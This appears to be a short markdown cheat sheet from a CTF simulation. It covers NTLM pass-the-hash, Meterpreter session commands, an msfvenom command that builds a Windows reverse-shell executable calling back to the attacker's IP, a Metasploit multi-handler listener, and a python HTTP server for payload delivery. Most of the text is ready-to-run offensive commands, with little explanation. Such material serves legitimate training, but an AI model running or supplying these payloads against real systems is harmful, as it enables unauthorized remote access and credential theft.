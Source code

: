 # 🧠 Advanced CTF Exploitation Techniques

## NTLM Hash
A hash format used for Windows password storage. If obtained, it can be cracked or used with pass-the-hash attacks.

## Meterpreter Session
Once an exploit succeeds, you may get a Meterpreter shell:
```bash
sessions
sessions -i [id]
```

### Basic Meterpreter Commands
- `pwd`, `ls`, `cd`
- `download`, `upload`
- `shell` → drop to normal shell

## msfvenom
Tool to generate custom payloads.
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[your-ip] LPORT=4444 -f exe > shell.exe
```

## Multi-Handler Setup
1. Start listener in Metasploit:
```bash
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST [your-ip]
set LPORT 4444
run
```

2. Send or upload `shell.exe` to target.

## Simple HTTP Server for File Transfer
```bash
python3 -m http.server 8080
```

This lets the target download payloads using `wget` or `curl`.

---

This set of techniques completes the CTF simulation: scan → exploit → shell → post-exploitation.
